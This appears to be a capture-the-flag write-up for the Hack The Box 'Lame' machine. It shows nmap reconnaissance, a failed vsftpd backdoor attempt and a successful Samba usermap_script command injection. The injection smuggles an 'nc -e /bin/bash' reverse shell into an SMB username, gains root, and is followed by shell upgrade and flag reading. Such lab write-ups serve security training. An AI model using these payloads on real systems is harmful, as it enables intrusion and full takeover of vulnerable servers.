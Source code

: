 ```yaml
---
layout: post
title: Lame
tags: [OSCP, Writeup, Linux, injection, SMB]
description: "Lame write-up"
---
```


![Lame logo](/assets/imgs/lame/lame.png)

### This is an easy linux box

## Tool used

------

- find
- nc
- nmap
- python
- searchsploit
- smbclient

## Reconnaissance

------

### Nmap

```
nmap -sV -sC -oA lame 10.10.10.3 -Pn -v

PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.3
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 2h06m30s, deviation: 2h49m44s, median: 6m28s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2020-07-15T06:12:45-04:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
```

Here's what nmap teaches us :

- port 21 (FTP) vsftpd 2.3.4 : anonymous login
- port 22 (SSH) OpenSSH 4.7p1
- port 139 (NETBIOS)  Samba smbd 3.X - 4.X
- port 445 (SMB) Samba smbd 3.0.20-Debian

We have some version, let's check for known exploits.

### Searchsploit

#### FTP

![searchsploit FTP](/assets/imgs/lame/searchsploit_vsftpd.PNG)

I download the metasploit exploit like so :

```bash
searchsploit -m unix/remote/17491.rb
```

Looking at the exploit, we see that the backdoor payload is initiated in response to a :) character  combination in the username which represents a smiley face. The code  sets up a bind shell listener on port 6200.

Let's try it manually :

We triggered the backdoor, by using a smiley after the username.

```
ftp 10.10.10.3
Connected to 10.10.10.3.
220 (vsFTPd 2.3.4)
Name (10.10.10.3:liodeus): test:)   
331 Please specify the password.
Password:
```

Then we connect to the bind shell on port 6200.

```
nc 10.10.10.3 6200
id
whoami
```

But we got nothing, too bad, the FTP server must be patch !

#### SSH

![searchsploit OPENSSH](/assets/imgs/lame/searchsploit_openssh.PNG)

As we can see, there is some exploit to do some "Username Enumeration". It might be interresting, but at the moment I don't really need a username. So if don't find anything with SMB, I'll get back to that exploit.

#### SMB

![searchsploit SMB](/assets/imgs/lame/searchsploit_samba3.0.20.PNG)

I see a "Command Execution", let's look at it.

## Exploit

------

Download the metasploit exploit :

```bash
searchsploit -m unix/remote/16320.rb
```

The interresting part is here :

```ruby
username = "/=`nohup " + payload.encoded + "`"
```

 By specifying a username containing shell meta characters, attackers can execute arbitrary commands.([https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script](https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script))

I want a reverse shell so my payload should look something like this :

```ruby
./=`nohup nc -e /bin/bash 10.10.14.4 1234`
```

Let's try it !

Open a nc listener :

```ruby
nc -lvp 1234
```

Then triggered the exploit.

```bash
smbclient //10.10.10.3/tmp --option='client min protocol=NT1'

Enter WORKGROUP\liodeus's password: 
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> logon "./=`nohup nc -e /bin/bash 10.10.14.4 1234`"
Password:
```

We have a connection back to our listener and we are "root", nice !

```bash
nc -lvp 1234
listening on [any] 1234 ...
10.10.10.3: inverse host lookup failed: Unknown host
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.3] 38077
id
uid=0(root) gid=0(root)
whoami
root
```

### Shell upgrade

Now that we have a shell, let's upgrade it :

```bash
which python
/usr/bin/python
python -c "import pty;pty.spawn('/bin/bash')"
root@lame:/#
```

And now go read the flags !

## Flags

------

### User.txt

```bash
find /home -name "user.txt"
/home/makis/user.txt
cat /home/makis/user.txt
69454a937d94f5f0225ea00acd2e84c5
```

### Root.txt

```bash
find /root -name "root.txt"
/root/root.txt
cat /root/root.txt
92caac3be140ef409e45721348a4e9df
```